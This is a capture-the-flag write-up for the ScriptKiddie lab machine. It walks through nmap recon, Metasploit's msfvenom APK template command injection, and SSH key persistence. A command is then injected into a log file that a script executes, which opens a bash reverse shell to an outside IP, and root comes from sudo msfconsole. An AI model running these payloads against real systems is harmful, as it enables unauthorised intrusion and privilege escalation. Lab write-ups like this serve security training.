 ![SCRIPTKIDDIE](banner.png)
## Reconnaissance
```
$sudo nmap -sS -sV 10.129.138.106
PORT   STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
On port 5000 we are welcomed by this page:
![website](website.png)

The payloads tool says: 'venom it up - gen rev tcp meterpreter bins' so it is propably msfvenom doing the work here.
There is also the possibility to upload template files and android as the OS. The template file threw me a little off because I haven't seen that for msfvenom before so I research template files, msfvenom and android and find a popular vulnerability which is described [here](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md).

## User

There is also a metasploit module which we will use to make things even easier:

`msfconsole`
```
use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
```
We only need to set LHOST and LPORT and hit run. We can then upload the generated .apk to the website as an android template. The LPORT on the website doesn't matter as long as it's not empty.

We set up our Listener at 4444 or whichever LPORT we set in the msfconsole.

The reverse shell we get is a little bit ugly so we use `ssh-keygen` to create a new key-pair. We then proceed to echo our public key into the `authorized_keys` file on the scriptkiddie machine.

We can now use the created private key to connect to the machine via ssh to have a stable shell:
```
ssh -i id_rsa kid@10.129.157.245

```

We can now grab the `user.txt`

## Root

We quickly find another user in the /home directory called `pwn`, he also has a suspicous looking script which we can read:

scanloser.sh
```sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
The script reads `/home/kid/logs/hackers` and executes whatever is in there. We can abuse this by writing into `/home/kid/logs/havkers`.
But we don't have write privileges so how do we do that?

After enumerate more we find that in the `/home/kid/html/app.py` it says that the searchsploit module from the webapp writes to that file whenever an error occurs so let's try that.

Nothing happens... however if we now write our payload to the file we instantly get our reverse shell:

```sh
echo 'a b $(bash -c "bash -i &>/dev/tcp/10.10.14.105/4242 0>&1")' > /home/kid/logs/hackers
```

```sh
pwn@scriptkiddie:~$ whoami
whoami
pwn
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
Sweet we can run metasploit as root:

```sh
$sudo msfconsole

whoami
root
```
